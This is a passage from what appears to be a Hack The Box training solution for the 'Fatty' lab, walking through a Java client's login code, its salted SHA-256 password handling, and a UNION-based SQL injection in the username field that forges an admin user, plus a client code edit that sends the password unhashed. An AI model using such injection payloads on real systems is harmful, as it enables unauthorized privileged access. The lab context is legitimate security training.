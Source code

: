 The login button creates the new object `ClientGuiTest.this.user` for the `User` class. It then calls the `setUsername()` and `setPassword()` functions with the respective username and password values. The values that are returned from these functions are then sent to the server:

![[HTB Solutions/CPTS/z. images/d2413ed7a98b6acb4ff6fe333bdbeb36_MD5.jpg]]

When checking `setUsername()` and `setPassword()` functions from `htb/fatty/client/shared/resources/user.java`, students will know that username gets accepted without any modification, but the password is changed to be the `sha256` hash digest of the username value, the password value, and the string "clarabibimakeseverythingsecure":

Code: java

```java
public void setUsername(String username) {
    this.username = username;
  }
  
  public void setPassword(String password) {
    String hashString = this.username + password + "clarabibimakeseverythingsecure";
    MessageDigest digest = null;
    try {
      digest = MessageDigest.getInstance("SHA-256");
    } catch (NoSuchAlgorithmException e) {
      e.printStackTrace();
    } 
    byte[] hash = digest.digest(hashString.getBytes(StandardCharsets.UTF_8));
    this.password = DatatypeConverter.printHexBinary(hash);
  }
```

Students will notice that the username isn't sanitized and is directly used in the SQL query, making it vulnerable to SQL injection. Students need to leverage the injection in the `username` field to create a fake user entry:

Code: java

```java
test' UNION SELECT 1,'invaliduser','invalid@a.b','invalidpass','admin
```

Beforehand, students need to edit the code in `htb/fatty/shared/resources/User.java` to submit the password as it is from the client application:

Code: java

```java
public void setPassword(String password) {
    this.password = password;
}
```

![[HTB Solutions/CPTS/z. images/fbd7d3c1b3164e593fe55ebf4c9991d8_MD5.jpg]]

Code: java

```java
public User(int uid, String username, String password, String email, Role role) {
    this.uid = uid;
    this.username = username;
    this.password = password;
    this.email = email;
    this.role = role;
}
```
